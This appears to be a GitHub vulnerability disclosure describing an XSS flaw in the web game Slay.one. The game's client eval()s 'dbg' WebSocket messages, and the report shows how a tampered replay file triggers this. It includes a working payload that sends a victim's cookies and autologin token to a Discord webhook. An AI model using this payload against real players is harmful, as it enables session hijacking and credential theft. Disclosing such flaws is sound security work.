
<div align="center">
  <img src="./imgs/logo.png" alt="Logo" />
</div>

# Exploit Report 'dbg' 
12/29/24\nThis repository documents a vulnerability, for cross-site scripting (XSS) attacks, in Slay.one's, a popular web-based pixel shooter game, replay files.

## Introduction 
[Slay.one](https://slay.one) is a popular web-based, top-down pixel shooter game. Despite its engaging gameplay, it suffers from a serious vulnerability that exposes users to cross-site scripting (XSS) attacks. This report outlines the nature of the vulnerability, how it can be exploited, and recommendations for mitigating the risk.

## Proof of Concept (PoC)
The vulnerability resides in the `client-bundle.js` file, specifically in the code responsible for processing WebSocket messages from the server. The problematic section of code is as follows:

```javascript
else if ("dbg" === arr[0]) // 'dbg' packet sent from the server
    try {
        eval(msg.substring(4)); // eval() allows arbitrary code execution
    } catch (e) {}
```

Here, the use of `eval()` poses a critical security risk, as it allows the execution of arbitrary JavaScript code passed within WebSocket messages.

### Exploitation
Attackers can exploit this vulnerability using Slay.one's replay feature, which lets users download and upload game replays. A replay file can be modified to include malicious code that executes in the victim’s browser when the file is uploaded and viewed.

### Proof of Concept Code
The following example demonstrates how an attacker could edit a replay file to exploit this vulnerability. When the replay is loaded, the malicious code steals the user’s cookies and authentication tokens, sending them to a Discord webhook.

#### Malicious Code Example
```javascript
dbg$fetch('https://discord.com/api/webhooks/{webhookID}/{webhookToken}', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
        content: 'Stolen Cookies: ' + document.cookie + 
                 ' Login Token: ' + localStorage.autologin
    })
});
```

### Potential Effects
Exploiting this vulnerability allows attackers to:
- **Hijack user sessions**: Stolen cookies can be used to impersonate users.
- **Steal sensitive information**: Attackers can access authentication tokens stored in `localStorage`.
- **Execute arbitrary code**: This can lead to additional compromises, including malware delivery or unauthorized actions.

## Recommendations for Mitigation
To address this vulnerability and improve overall security, the following measures are recommended:

- **Eliminate `eval()` usage**: 
- **Validate and sanitize inputs**
- **Implement Content Security Policy (CSP)**
- **Enhance WebSocket security**: 

---

By implementing these measures, Slay.one can significantly reduce the risk of XSS attacks, providing a safer and more secure experience for its players.
